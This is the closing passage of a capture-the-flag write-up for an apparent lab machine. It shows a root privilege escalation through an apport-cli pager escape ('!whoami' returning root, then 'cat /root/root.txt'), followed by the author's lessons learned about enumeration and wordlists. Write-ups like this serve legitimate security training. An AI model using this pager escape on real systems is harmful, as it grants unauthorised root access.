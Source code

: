 ```
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
[...]
ERROR: Cannot update /var/crash/_usr_bin_apport-unpack.1000.crash: [Errno 13] Permission denied: '/var/crash/_usr_bin_apport-unpack.1000.crash'
....
WARNING: terminal is not fully functional
-  (press RETURN)!whoami
!wwhhooaammii!whoami
root
!done  (press RETURN)!cat /root/root.txt

!ccaatt  //rroooott//rroooott..ttxxtt!cat /root/root.txt
a[...]b
```
Bingo!
## Lessons learned
I lost a lot of time working on this machine due to bad copy-paste of commands, or by searching for important commands in my previous write-ups. I think I should create scripts to automate some parts of the enumeration (nmap, ffuf...) and keep notes of important commands to reuse them later. Also, I lost a lot of time by using the wrong wordlist to get the password of the user `logan`. It could be interesting to take note of the more complete wordlists in the future.